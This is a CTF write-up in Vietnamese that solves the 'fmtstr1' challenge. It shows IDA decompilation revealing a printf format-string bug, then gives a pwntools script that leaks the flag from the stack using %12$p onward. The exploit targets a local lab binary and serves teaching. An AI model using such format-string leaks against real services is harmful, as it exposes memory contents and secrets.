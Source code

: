 **1. Tìm lỗi**

Dùng lệnh ```file``` kiểm tra:

```
fmtstr1: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=281c495659f082f89ec3055ce30a45e3497604d8, for GNU/Linux 3.2.0, not stripped
```

Mở bằng IDA64 ta có:

```
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int fd; // [rsp+Ch] [rbp-134h]
  char format[8]; // [rsp+10h] [rbp-130h] BYREF
  __int64 v6; // [rsp+18h] [rbp-128h]
  __int64 v7; // [rsp+20h] [rbp-120h]
  __int64 v8; // [rsp+28h] [rbp-118h]
  __int64 buf[34]; // [rsp+30h] [rbp-110h] BYREF

  buf[33] = __readfsqword(0x28u);
  *(_QWORD *)format = 0LL;
  v6 = 0LL;
  v7 = 0LL;
  v8 = 0LL;
  memset(buf, 0, 256);
  init(argc, argv, envp);
  fd = open("./flag.txt", 0, 0LL);
  if ( fd < -1 )
  {
    puts("Cannot open flag.txt");
    exit(0);
  }
  read(fd, buf, 256uLL);
  close(fd);
  printf("Your format string: ");
  read(0, format, 31uLL);
  printf(format);
  return 0;
}
```

Chương trình đọc file flag.txt rồi cho phép người dùng nhập vào chuỗi format rồi in giá trị chuỗi format ra.

Ở câu lệnh ```printf(format);``` đã có lỗi format string.

**2. Ý tưởng**

Biến lưu giá trị file bằng là local nên sẽ lưu trên stack nên sẽ thử leak bằng %p.

**3. Khai thác**

Đặt breapoint sau lệnh read flag để xem flag nằm ở đâu trên stack.

![stack.png](photo/stack.png)

Ta thấy cộng với 5 ở phần đầu về trước flag có 6 giá trị trên stack nên flag có giá trị từ %12$p. Kiểm tra thử xem.

![check.png](photo/check.png)

Như vậy đã chính xác.

Ta có script như sau:

```
from pwn import *

exe = ELF('fmtstr1', checksec = False)

output = b''
for i in range(12, 20):
    r = process(exe.path)
    r.sendafter(b'string:', f'%{i}$p')
    leak = int(r.recvall(), 16)
    output += p64(leak)
    if b'}' in output:
        print(output)
        exit(0)

r.interactive()
```

**4. Lấy flag**

![flag.png](photo/flag.png)
